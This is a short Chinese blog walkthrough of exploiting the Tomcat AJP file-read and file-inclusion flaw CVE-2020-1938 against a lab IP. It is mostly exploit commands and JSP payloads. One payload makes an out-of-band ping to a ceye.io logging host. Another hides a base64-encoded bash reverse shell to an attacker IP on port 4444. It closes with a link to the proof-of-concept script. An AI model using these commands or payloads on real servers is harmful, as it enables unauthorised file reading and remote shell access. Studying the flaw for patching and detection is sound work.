


# Tomcat 文件包含及文件读取漏洞（CVE-2020-1938） - 学安全的小白 - 博客园

> 原文：[`www.cnblogs.com/pursue-security/p/17029155.html`](https://www.cnblogs.com/pursue-security/p/17029155.html)

漏洞影响 CVE-2020-1938Apache Tomcat 9.x<9.0.31Apache Tomcat 8.x<8.5.51Apache Tomcat 7.x<7.0.100Apache Tomcat 6.x 漏洞利用前提目标机器开启 AJP Connector 服务端口（默认开启，为 8009 端口）目标机器使用 tomcat 并且开启了 AJP 服务端口。漏洞利用文件读取服务器中的 web.xml 文件。使用一下命令读取目标机器中的 web.xml。命令如下：

```
python2 Tomcat-ROOT 路径下文件读取(CVE-2020-1938).py -p 8009 -f /WEB-INF/web.xml 192.168.116.133
```



这个漏洞只能读取 webappps/ROOT 目录下的所有文件。文件包含

```
python2 Tomcat-ROOT 路径下文件包含(CVE-2020-1938).py -p 8009 -f /test.txt 192.168.116.133
```

test.txt 文件中的内容如下：

```
<% java.io.InputStream in = Runtime.getRuntime().exec("ping 90tz19.ceye.io").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>"); while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>"); %>
```

攻击结果：反弹 shell 写文件的命令。shell.txt

```
<% java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExNi4xNDAvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}").getInputStream(); int a = -1; byte[] b = new byte[2048];
    out.print("<pre>"); while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>"); %>
```

成功反弹 shell。

*   POC 下载地址：[`github.com/sv3nbeast/CVE-2020-1938-Tomact-file_include-file_rea`](https://github.com/sv3nbeast/CVE-2020-1938-Tomact-file_include-file_read)